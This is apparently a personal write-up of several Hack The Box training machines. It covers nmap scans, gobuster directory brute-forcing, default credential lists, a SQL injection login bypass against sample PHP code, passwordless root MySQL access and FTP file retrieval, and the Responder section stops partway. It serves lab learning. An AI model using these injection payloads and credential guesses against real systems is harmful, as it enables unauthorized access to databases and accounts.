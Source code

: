 #  Machine: Appointment

## Exploit: SQL Injection 

Nmap is a tool used to find open ports on a target
- ```sudo nmap {target_IP}```
  - ```sudo nmap -sC -sV {target_IP}```
    - ```-sV``` switch, stands for version detection 
    - ```-sC``` performs a script scan using the default set of scripts
- *Apache HTTP Server is a free and open-source application that runs web pages on either physical or virtual
web servers. It is one of the most popular HTTP servers, and it usually runs on standard HTTP ports such as
ports 80 TCP, 443 TCP, and alternatively on HTTP ports such as 8080 TCP or 8000 TCP*

 ![appointment_nmap](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/appointment_nmap.png?raw=true)

Since port 80 is open (http) we can go to the IP in our browser

**Gobuster**
```git clone https://github.com/danielmiessler/SecLists.git``` command downloads the wordlist
```gobuster dir --url http://{target_IP}/ --wordlist {wordlist_location}/directory-list-2.3-small.txt -x php,html```

Default credentials
- admin:admin
- guest:guest
- user:user
- root:root
- administrator:password

SQL injection
example how authentication works 

```
<?php
mysql_connect("localhost", "db_username", "db_password"); # Connection to the SQL
Database.
mysql_select_db("users"); # Database table where user information is stored.
$username=$_POST['username']; # User-specified username.
$password=$_POST['password']; #User-specified password.
$sql="SELECT * FROM users WHERE username='$username' AND password='$password'";
# Query for user/pass retrieval from the DB.
$result=mysql_query($sql);
# Performs query stored in $sql and stores it in $result.
$count=mysql_num_rows($result);
# Sets the $count variable to the number of rows stored in $result.
if ($count==1){
 # Checks if there's at least 1 result, and if yes:
 $_SESSION['username'] = $username; # Creates a session with the specified $username.
 $_SESSION['password'] = $password; # Creates a session with the specified $password.
 header("location:home.php"); # Redirect to homepage.
 ```
 
 if we use **admin'#** in the username field,
 
 ```$sql="SELECT * FROM users WHERE username='$username' AND password='$password'";```
 
 will read ```$sql="SELECT * FROM users WHERE username='admin'```, so password will be skipped with this SQL injection
 
![appointment_select](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/appointment_select.png?raw=true)

We can login with any password in the password field

![appointment_sql](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/appointment_sql.png?raw=true)

![appointment_sql1](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/appointment_sql1.png?raw=true)
 
#  Machine: Sequel

## Exploit: SQL database with mysql

- ```sudo nmap {target_IP}```
  - ```sudo nmap -sC -sV {target_IP}```
    - ```-sV``` switch, stands for version detection 
    - ```-sC``` performs a script scan using the default set of scripts

```sudo apt update && sudo apt install mysql*``` to download mysql

- ```mysql -h {target_IP} -u root```
  - -h : Connect to host.
  - -u : User for log-in if not current user.

![sequel_mysql](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/sequel_mysql.png?raw=true)

- mysql commands

```
SHOW databases; : Prints out the databases we can access.
USE {database_name}; : Set to use the database named {database_name}.
SHOW tables; : Prints out the available tables inside the current
database.
SELECT * FROM {table_name}; : Prints out all the data from the table {table_name}.
```

  - ```SHOW databases;``` to see our databases
  - ```USE htb;``` to change database
  - ```SHOW tables;``` to check the tables
  - ```SELECT * FROM config;``` to see our query of config

![sequel_mysql1](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/sequel_mysql1.png?raw=true)

#  Machine: Crocodile

## Exploit: FTP/PHP

- ```sudo nmap {target_IP}```
  - ```sudo nmap -sC -sV {target_IP}```
    - ```-sV``` switch, stands for version detection 
    - ```-sC``` performs a script scan using the default set of scripts

![crocodile_nmap](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/crocodile_nmap.png?raw=true)

- Port 21 is open, ftp to the target IP
  - Use command ```get``` to download files from remote computer to the local computer
  - Use command ```bye``` to leave ftp

![crocodile_ftp](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/crocodile_ftp.png?raw=true)

- Use command ```cat``` (concatenate) to read data from file and output the contents

![crocodile_cat](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/crocodile_cat.png?raw=true)

**Gobuster**

```gobuster dir --url http://{target_IP}/ --wordlist {wordlist_location}/directory-list-2.3-small.txt -x php,html```

gobuster dir --url http://10.129.235.89 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html

![crocodile_gobuster](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/crocodile_gobuster.png?raw=true)

- ```http://{target_IP}/login.php``` page
  - Use the username and password files to log in
![crocodile_login](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/crocodile_login.png?raw=true)

![crocodile_flag](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/crocodile_flag.png?raw=true)

#  Machine: Responder

## Exploit: 

- ```nmap -p- --min-rate {#} -sV {target_IP}```
  - ```-sV``` switch, stands for version detection 
  - ```-p- to scan ports from 1 through 65535``` 
  - ```--min-rate {#}``` specifies the minimum number of packets Nmap should send per second; it speeds up the scan as the number goes higher

nmap -p- --min-rate 5000 -sV

- Port 80 (http) and 5985 (WinRM) are open

![responder_nmap](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/responder_nmap.png?raw=true)

- *Windows Remote Management, or WinRM, is a Windows-native built-in remote management protocol that basically uses Simple Object Access Protocol to interact with remote computers and servers, as well as Operating Systems and applications. WinRM allows the user to :*
  - *→ Remotely communicate and interface with hosts*
  - *→ Execute commands remotely on systems that are not local to you but are network accessible.*
  - *→ Monitor, manage and configure servers, operating systems and client machines from a remote location.*
- *As a pentester, this means that if we can find credentials (typically username and password) for a user who has remote management privileges, we can potentially get a PowerShell shell on the host.*

- If we visit the IP in the browser, we are redirected to Unika.htb

![responder_unika](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/responder_unika.png?raw=true)

- add the IP to the hosts file to redirect
  - ```echo "{target_IP} unika.htb" | sudo tee -a /etc/hosts```

![responder_unika2](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/responder_unika2.png?raw=true)
